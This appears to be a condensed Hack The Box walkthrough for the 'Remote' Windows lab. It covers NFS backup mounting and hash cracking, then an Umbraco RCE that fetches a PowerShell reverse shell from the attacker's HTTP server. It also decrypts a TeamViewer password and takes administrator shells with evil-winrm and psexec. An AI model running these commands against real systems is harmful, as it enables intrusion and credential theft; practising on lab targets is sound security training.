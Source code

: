 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🔍 **Recon**

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.180
nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
```

## 🌐 [**Web Enumeration**](HTTP)

- No specific commands listed for web recon (manual browsing used).
- Umbraco admin panel discovered at `/Umbraco`.

## 📂 **NFS Enumeration & Mounting**

```bash
showmount -e 10.10.10.180
mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt/App_Data
strings Umbraco.sdf | head
```

## 🔓 **Hash Cracking**

```bash
cat admin.sha1
# (file contains: b8be16afba8c314ad33d812f22a04991b90e2aaa)

hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force
```

## 💥 **Exploit (Umbraco RCE)**

```bash
# Prepare PowerShell reverse shell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443" >> shell.ps1

# Serve the payload
python3 -m http.server 80

# Run exploit (Python script edited to call shell.ps1)
python umbraco_rce_iex.py
```

## 🐚 **Catch Reverse Shell**

```bash
rlwrap nc -lvnp 443
```

## 🔎 **Post-Exploit Enumeration (TeamViewer found)**

```powershell
tasklist
cd 'HKLM:\software\wow6432node\teamviewer\version7'
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```

## 🔑 **Decrypt TeamViewer Password (Python)**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174,
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218,
                    126, 141, 55, 107, 38, 57, 78, 91])
aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
print(f"[+] Found password: {password}")
```

## 🪟 [**Admin Access**](SMB)

```bash
# Validate admin creds
crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'

# Evil-WinRM shell
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

# Optional alternatives
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

---

📎 **Write-up Link**: [HTB: Remote by 0xdf](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
